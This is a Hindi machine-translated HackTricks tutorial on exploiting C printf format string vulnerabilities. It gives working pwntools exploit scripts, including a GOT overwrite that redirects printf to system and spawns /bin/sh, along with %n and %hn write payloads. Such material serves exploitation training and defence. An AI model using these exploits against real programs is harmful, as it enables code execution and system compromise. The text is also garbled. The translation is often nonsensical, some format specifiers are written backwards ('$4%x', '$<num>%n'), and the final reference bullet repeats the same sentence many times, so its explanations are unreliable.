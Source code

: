 # Format Strings

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a> <strong>के साथ!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित देखना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटीज**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** ट्विटर पर **फॉलो** करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**।**
* **अपने हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स रेपो** (https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud रेपो**](https://github.com/carlospolop/hacktricks-cloud) **को PR जमा करके**।

</details>

## मूल जानकारी

C में **`printf`** एक फ़ंक्शन है जिसका उपयोग किसी स्ट्रिंग को **प्रिंट** करने के लिए किया जा सकता है। इस फ़ंक्शन की पहली पैरामीटर उम्मीदवार के रूप में **फॉर्मेटर्स के साथ कच्चा पाठ** की उम्मीद करता है। उम्मीदवार के रूप में **उम्मीदवार के पहले तर्क** का उपयोग करने पर संक्रमित होता है जब यह फ़ंक्शन। अटैकर को **विशेष इनपुट तैयार करने की अनुमति** होती है जो **printf फॉर्मेट स्ट्रिंग** क्षमताओं का दुरुपयोग करके किसी भी पते में किसी भी डेटा को पढ़ने और **लिखने की क्षमता** होती है (पढ़ने योग्य/लिखने योग्य)। इस तरह से **विचारशील कोड** को **चलाने** की क्षमता होती है।

#### फॉर्मेटर्स:

```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```

**उदाहरण:**

* वंलरेबल उदाहरण:

```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```

* सामान्य उपयोग:

```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```

* गुम होने वाले तर्कों के साथ:

```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```

### **पॉइंटर तक पहुंचना**

फॉर्मेट **`%<n>$x`**, जहां `n` एक संख्या है, printf को इंडिकेट करने की अनुमति देता है कि n पैरामीटर (स्टैक से) का चयन करें। तो यदि आप printf का उपयोग करके स्टैक से 4वें पैरामीटर को पढ़ना चाहते हैं तो आप यह कर सकते हैं:

```c
printf("%x %x %x %x")
```

और आप पहले से चौथे पैरामीटर तक पढ़ सकते हैं।

या आप यह कर सकते हैं:

```c
printf("$4%x")
```

और सीधे चौथे को पढ़ें।

ध्यान दें कि हमलावर `pr`**`intf` पैरामीटर को नियंत्रित करता है, जिसका अर्थ है कि** जब `printf` को कॉल किया जाता है, तो उसका इनपुट स्टैक में होगा, जिसका मतलब है कि वह विशिष्ट मेमोरी पतों को स्टैक में लिख सकता है।

{% hint style="danger" %}
इस इनपुट को नियंत्रित करने वाला एक हमलावर, **स्टैक में एक arbitrary पता जोड़ सकता है और `printf` को उन्हें एक्सेस करने दे सकता है**। अगले खंड में यह व्यवहार कैसे उपयोग करने के बारे में समझाया जाएगा।
{% endhint %}

## **अर्बिट्रेरी पठन**

यह संभव है कि हम **`$n%s`** फॉर्मेटर का उपयोग करें **`printf`** को **पता** प्राप्त करने के लिए **n स्थान** में स्थित पता प्राप्त करें, इसके बाद और **उसे एक स्ट्रिंग की तरह प्रिंट करें** (0x00 पाए जाने तक प्रिंट करें)। इसलिए यदि बाइनरी का बेस पता है **`0x8048000`**, और हमें पता है कि उपयोगकर्ता इनपुट स्टैक में 4वें स्थान से शुरू होता है, तो बाइनरी की शुरुआत प्रिंट करना संभव है:

```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```

{% hint style="danger" %}
ध्यान दें कि आप 0x8048000 पते को इनपुट की शुरुआत में नहीं डाल सकते क्योंकि इस पते के अंत में 0x00 डाल दिया जाएगा।
{% endhint %}

## **अनियमित लेखन**

फॉर्मेटर **`$<num>%n`** **उस पते पर लिखता है** जिसे \<num> पैरामीटर में स्टैक में निर्दिष्ट किया गया है, जिसमें **लिखे गए बाइट की संख्या** होती है। यदि एक हमलावर printf के साथ जितने वर्ण लिख सकता है, तो वह **`$<num>%n`** को किसी भी पते पर किसी भी संख्या लिखने के लिए सक्षम हो जाएगा।

भाग्यशाली तौर पर, अंक 9999 लिखने के लिए, इसे करने के लिए इनपुट में 9999 "A" जोड़ने की आवश्यकता नहीं है, इसे करने के लिए फॉर्मेटर **`%.<num-write>%<num>$n`** का उपयोग करना संभव है ताकि **`<num-write>`** को **`num` स्थान** द्वारा संकेतित पते पर लिखा जा सके।

```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```

हालांकि, ध्यान दें कि आम तौर पर पता लिखने के लिए एक पता जैसे `0x08049724` (जो एक बड़ी संख्या है एक साथ लिखने के लिए), **`$n`** की बजाय **`$hn`** का उपयोग किया जाता है। इससे **केवल 2 बाइट लिखने** की अनुमति होती है। इसलिए यह कार्रवाई दो बार की जाती है, पहले सबसे उच्च 2B के लिए और दूसरी बार सबसे कम वाले के लिए।

इसलिए, यह सुरक्षा दोष किसी भी पते में कुछ भी लिखने की अनुमति देता है (विवेकात्मक लेखन).

इस उदाहरण में, लक्ष्य होगा किसी बाद में बुलाया जाने वाला **GOT** तालिका में एक **कार्य** के **पते** को **अधिलेखित** करना। यद्यपि इससे अन्य विवेकात्मक लेखन को दुरुपयोग किया जा सकता है:

{% content-ref url="https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/arbitrary-write-2-exec/README.md" %}
[https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/arbitrary-write-2-exec/README.md](https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/arbitrary-write-2-exec/README.md)
{% endcontent-ref %}

हम एक **कार्य** को **अधिलेखित** करने जा रहे हैं जो अपने **प्रारंभिक** को **उपयोगकर्ता** से **प्राप्त** करता है और इसे **`system`** **कार्य** की ओर इशारा करता है। जैसा कि उल्लिखित है, पता लिखने के लिए आम तौर पर 2 कदम आवश्यक होते हैं: आप **पहले 2 बाइट** पते का लिखते हैं और फिर दूसरे 2 करते हैं। इसे करने के लिए **`$hn`** का उपयोग किया जाता है।

* **HOB** पते के 2 उच्च बाइट को बुलाया जाता है
* **LOB** पते के 2 निचले बाइट को बुलाया जाता है

फिर, चाहे जैसे ही प्रारूप स्ट्रिंग काम करती है, आपको **सबसे छोटा पहले** लिखना होगा \[HOB, LOB] और फिर दूसरा।

यदि HOB < LOB\
`[पता+2][पता]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

यदि HOB > LOB\
`[पता+2][पता]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools टेम्पलेट

आप इस प्रकार की सुरक्षा दोष के लिए एक उत्पीड़न तैयार करने के लिए एक टेम्पलेट पा सकते हैं:

{% content-ref url="https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/format-strings/format-strings-template.md" %}
[https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/format-strings/format-strings-template.md](https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/format-strings/format-strings-template.md)
{% endcontent-ref %}

या यह मौलिक उदाहरण [**यहाँ से**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) मिल सकता है:

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```

## अन्य उदाहरण और संदर्भ

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 बिट, कोई relro नहीं, कोई कैनेरी नहीं, एनएक्स, कोई पाई नहीं, बेसिक तरीके से फॉर्मेट स्ट्रिंग का उपयोग करके स्टैक से फ्लैग लीक करने के लिए (एक्सीक्यूशन फ्लो को बदलने की आवश्यकता नहीं है)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 बिट, relro, कोई कैनेरी नहीं, एनएक्स, कोई पाई नहीं, फॉर्मेट स्ट्रिंग का उपयोग करके पता `fflush` को जीतने के लिए विन फंक्शन के साथ अधिरोहित करने के लिए (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 बिट, relro, कोई कैनेरी नहीं, एनएक्स, कोई पाई नहीं, फॉर्मेट स्ट्रिंग का उपयोग करके मेन में एक पते लिखने के लिए `.fini_array` में और `system` में पता लिखने के लिए जीओटी तालिका में `strlen` को पॉइंट करने वाले पते को लिखने के लिए। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में।
